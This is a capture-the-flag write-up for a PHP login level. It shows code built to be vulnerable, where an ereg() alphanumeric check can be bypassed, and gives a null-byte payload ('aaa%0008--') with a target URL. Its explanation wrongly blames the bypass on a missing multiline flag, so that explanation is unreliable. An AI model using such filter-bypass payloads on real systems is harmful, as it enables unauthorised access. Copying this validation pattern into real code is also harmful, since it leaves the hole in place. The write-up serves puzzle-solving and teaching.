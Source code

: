 # Brigham Circle
---
Sanitization is hard, lets use regexp! : 25


## Source code

```
<html>
<head>
	<title>level6</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset ($_GET['password'])) {
	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
		echo '<p class="alert">You password must be alphanumeric</p>';
	else if (strpos ($_GET['password'], '--') !== FALSE)
		die('Flag: ' . $flag);
	else
		echo '<p class="alert">Invalid password</p>';
}
?>

<section class="login">
        <div class="title">
                <a href="./index.txt">Level 6</a>
        </div>

        <form method="get">
                <input type="text" required name="password" placeholder="Password" /><br/>
                <input type="submit"/>
        </form>
</section>
</body>
</html>
```

## Solution

Regexp without m flag (multiline) does not validate something like this:

```
aaa%0008--
```

This will pass filter with ereg() function.

http://52.10.107.64:8006/?password=aaaa%0008--

